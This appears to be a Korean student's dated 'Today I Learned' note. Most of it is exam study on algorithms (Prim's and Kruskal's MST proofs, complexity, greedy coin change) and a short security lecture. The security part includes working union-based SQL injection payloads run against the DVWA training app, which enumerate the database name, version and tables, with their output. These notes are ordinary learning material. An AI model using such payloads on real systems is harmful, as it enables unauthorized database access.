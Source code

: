 # TIL 2020-12-13

--------------------------

## 할 일

- [x] 시험공부
- [x] 보안 특강

## 시험공부

### 알고리즘 설계와 분석

#### chained matrix multiplication

#### Greedy, 동전 문제

- 그리디가 최적이 아닌 경우,
- 그리디가 최적인 경우(나누어 증명)

#### MST, prim algorithm

- prim 알고리즘 설계,
- 연산수 분석
- ...
- Prim, Kruskal, Djikstra

F={(v,w)| v,w in V}
iff F is subset of F' then F is promising

Y: mst에 포함된 정점
V: 전체 정점

Lemma 4.1: F가 E의 부분집합, Y가 F의 엣지로 연결된 정점들, 만약 e가 Y와 V-Y를 연결하는 최소 가중치 간선이면 F union {e}는 promising하다.

Theorem 4.1 Prim알고리즘은 항상 MST를 결과로 한다.
- 기저: 공집합은 promising
- I.H: 현재까지 F는 promising 하다고 가정.
- I.S: Lemma4.1에 따르면 추가해도 promising하다. V-Y=empty까지 반복.

- 프림 알고리즘은 정점 수에만 영향받음. O(N^2)
- 크루스칼 알고리즘은 sparse graph에서 O(nlgn), dense에서 O(n^2lgn)
- 즉 sparse에서는 크루스칼이 유리

#### Djikstra - shortest paths

dynamic programming approach   to the 0/1 knapsack problem



## 보안 특강

보안의 3요소:
- 무결성
- 기밀성
- 가용성

그냥 몇 번 틀리면 막아버리거나, 비밀번호 강도를 엄청 높게 한다면 좋을까? 그렇지 않은 경우가 있다는 것이다. 다른 사용자가 다른 유저들에 로그인 시도로 막아버려 귀찮게 할 수도 있고, 비밀번호 강도 또한 높을수록 사용자 입장에서 비친화적이 된다.


### sql injection

placeholder 사용 (?,?,?)
어쨌든 입력값 검증이 중요.
제한된 특수문자..

```
SELECT first_name, last_name FROM users 
WHERE user_id = '' ORDER BY 1 # '

응답값이 2개구나....

SELECT first_name, last_name FROM users 
WHERE user_id = '' AND 1=1 
UNION SELECT database(), version() #

First name: dvwa
Surname: 5.1.41-3ubuntu12.6-log

응답값이 2개인것을 알고.. => 활용...
DB의 이름이 dvwa, 버전은 mysql = 5.1.41-3  우분투 12.6 을 쓰고 있구나...

DB안에.. 어떤 테이블이 있을까?
'AND 1=1 UNION SELECT table_name, table_schema FROM information_schema.tables WHERE table_schema='dvwa' #
```

레인보우 테이블 : 미리 만들어둔 해시값

Burpsuite 커뮤니티 에디션





## tags
- \#TIL, \#blog, \#prj, \#school, \#algorithm

--------------------------

